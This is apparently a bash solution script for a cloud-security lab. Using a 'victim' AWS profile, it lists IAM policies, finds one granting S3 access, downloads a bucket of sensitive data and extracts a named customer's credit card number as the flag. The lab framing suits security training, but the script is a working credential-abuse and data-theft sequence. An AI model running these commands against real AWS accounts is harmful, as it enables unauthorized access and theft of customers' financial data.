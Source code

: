 ```bash
aws iam list-attached-user-policies --user-name "$VICTIM_USER" --profile victim

# List inline user policies for the victim.  We expect to find "GiveAccessToS3".
POLICY_NAMES=$(aws iam list-user-policies --user-name "$VICTIM_USER" --profile victim --query "PolicyNames[*]" --output text)

if [ -z "$POLICY_NAMES" ]; then
  echo "ERROR: No inline user policies found for the victim user.  Check the lab setup."
  exit 1
fi

echo "Victim User Policies: $POLICY_NAMES"

# Get and display the "GiveAccessToS3" policy (or whatever policy grants S3 access).
for POLICY_NAME in $POLICY_NAMES; do
    if [[ "$POLICY_NAME" == *"S3"* ]]; then #flexible search for policies granting s3 perms
        echo "Policy Document for $POLICY_NAME:"
        aws iam get-user-policy --user-name "$VICTIM_USER" --policy-name "$POLICY_NAME" --profile victim --output json | jq .
        S3_POLICY_NAME=$POLICY_NAME
    fi
done

if [ -z "$S3_POLICY_NAME"]; then
   echo "No S3 policy found for the victim"
   exit 1
fi

# List S3 buckets.  The victim should now have access to the target bucket.
BUCKET_NAME=$(aws s3 ls --profile victim --query "Buckets[*].Name" --output text | grep cybr-sensitive)
if [ -z "$BUCKET_NAME" ]; then
    echo "ERROR: Could not find sensitive bucket, s3 access may have failed"
    exit 1
fi
echo "Found Bucket: $BUCKET_NAME"


# Download the contents of the target bucket.
mkdir -p ~/Downloads  # Ensure the Downloads directory exists.
aws s3 sync "s3://$BUCKET_NAME" ~/Downloads --profile victim

if [ $? -ne 0 ]; then
  echo "ERROR: Failed to download S3 bucket contents. Check permissions and bucket name."
  exit 1
fi

echo "S3 bucket contents downloaded to ~/Downloads"

# --- 4. Extract the Flag ---

# Find and print Kayla Sanchez's credit card number.
FLAG=$(grep "Kayla Sanchez" ~/Downloads/customers.txt | awk '{print $NF}')

if [ -z "$FLAG" ]; then
  echo "ERROR: Could not find Kayla Sanchez's credit card number in the downloaded file."
  exit 1
fi

echo "Flag (Kayla Sanchez's Credit Card Number): $FLAG"

echo "Lab completed successfully!"
exit 0
```
